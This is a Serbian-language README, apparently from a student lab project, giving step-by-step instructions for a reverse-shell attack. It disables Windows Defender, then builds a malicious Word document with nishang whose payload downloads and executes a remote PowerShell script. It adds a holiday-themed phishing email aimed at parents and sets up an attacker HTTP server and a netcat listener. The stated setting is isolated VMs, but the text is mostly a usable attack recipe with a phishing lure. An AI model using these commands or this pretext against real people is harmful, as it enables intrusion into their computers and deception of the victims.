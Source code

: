 # Instrukcije za izvršeni napad

Reverse shell attack je napad u kojem računar žrtve inicira vezu ka računaru napadača (ne svojom voljom), omogućavajući napadaču pristup komandnoj liniji računara žrtve. U dokumentu se nalaze detaljne instrukcije za izvršeni napad na datom projektu.

## Sadržaj

- [Kratak opis načina izvođenja napada](#kratak-opis)
- [Kreiranje malicioznog word dokumenta](#kreiranje-malicioznog-word-dokumenta)
- [Kreiranje phishing mejla](#kreiranje-phishing-mejla)
- [Kreiranje HTTP Servera za osluškivanje](#kreiranje-http-servera-za-osluškivanje)
- [Primer uspešnog napada](#primer-uspešnog-napada)

## Kratak opis

Napad se sastoji iz tri koraka:

&ensp;&ensp;1. Kreiranje malicioznog word dokumenta preko kojeg će žrtva inicirati konekciju ka napadaču

&ensp;&ensp;2. Kreiranje phishing mejla preko kojeg će žrtva preuzeti maliciozni word dokument

&ensp;&ensp;3. Kreiranje HTTP servera preko kojeg će napadač osluškivati zahteve za konekcuju

Operativni sistemi žrtve i napadača podignuti su na virtuelnoj mašini kako bi se osigurala sigurnost. Operativni sistem žrtve je Windows 10, dok je operativni sistem napača Kali Linux. Softver koji je korišćen u kreiranju virtuelnih mašina je Oracle VM VirtualBox.

Za kreiranje malicioznog word dokumenta i HTTP servera koriste se shell skripte koje se mogu pronaći na sledećem GitHub repozitorijumu: [nishang](https://github.com/samratashok/nishang)

## Kreiranje malicioznog word dokumenta

Maliciozni word dokument kreiran je na operativnom sistemu žrtve (Windows 10). Koraci su sledeći:

&ensp;&ensp;1. Nakon pokretanja operativnog sistema, potrebno je isključiti real-time protection.

![Primer screenshot-a](Screenshots/real_time_protection.png)

&ensp;&ensp;2. Zatim, potrebno je preuzeti nishang GitHub repozitorijum: [nishang](https://github.com/samratashok/nishang)

&ensp;&ensp;3. Ekstraktovati repozitorijum na željenu lokaciju, otvoriti direktorijum u powershell-u kao administrator i pozicionirati se u poddirektorijum Client.

![Primer screenshot-a](Screenshots/positioning.png)

&ensp;&ensp;4. Uneti komandu koja će da dot source-uje dokument pomoću kojeg se kreira maliciozni word dokument (Out-Word.ps1).

`. .\Out-Word.ps1`

![Primer screenshot-a](Screenshots/dot_sourced.png)

&ensp;&ensp;4. Nakon toga, potrebno je uneti komandu koja će kreirati maliciozni word dokument. Potrebno je izmeniti dve IP adrese u komandi na adresu napadača, kao i definisati putanju gde će se sačuvati fajl i dodeliti mu se proizvoljno ime.

`Out-Word -Payload "powershell iex (New-Object Net.Webclient).downloadString('http//127.0.0.1/Invoke-PowerShellTcp.ps1');reverse -Reverse -IPAddress 127.0.0.1 -Port 4444" -OutputFile C:\Users\vboxuser\Desktop\malware_word_document.doc`

![Primer screenshot-a](Screenshots/creating_malicious_file.png)

## Kreiranje phishing mejla

Nakon kreiranja malicioznog word dokumenta, potrebno je sastaviti phishing mejl, pronaći i prevariti žrtvu. U našem primeru, sastavljen je mejl koji traži od žrtve da preuzme dokument i u njega unese informacije svoje dece da bi deca mogla dobiti navode paketiće. Ideja je takva da bi se mejl slao u prazničnom periodu.

![Primer screenshot-a](Screenshots/phishing_mail.png)

## Kreiranje HTTP Servera za osluškivanje

Server koji osluškuje konekcije od žrtve biće kreiran na operativnog sistemu napadača (Kali Linux). Koraci su sledeći:

&ensp;&ensp;1. U terminalu uneti komandu koja će preuzeti fajl sa skriptom za payload attack.

`wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1`

![Primer screenshot-a](Screenshots/downloading_payload_script.png)

&ensp;&ensp;2. Otvoriti preuzeti fajl i dodati sledeću liniju na kraj. Potrebno je IP adresu zameniti sa IP adresom napadača.

`Invoke-PowerShellTcp -Reverse -IPAddress 10.0.2.4 -Port 4444`

![Primer screenshot-a](Screenshots/modifying_payload_script.png)

&ensp;&ensp;3. Pokrenuti HTTP server i listener-a u dva zasebna terminala.

`sudo python3 -m http.server 80`

`nc -lvnp 4444`

![Primer screenshot-a](Screenshots/starting_server.png)

## Primer uspešnog napada

Ako je sve podešeno kako je potrebno, uspešan napad bi trebao da izgleda:

![Primer screenshot-a](Screenshots/attack_example.png)
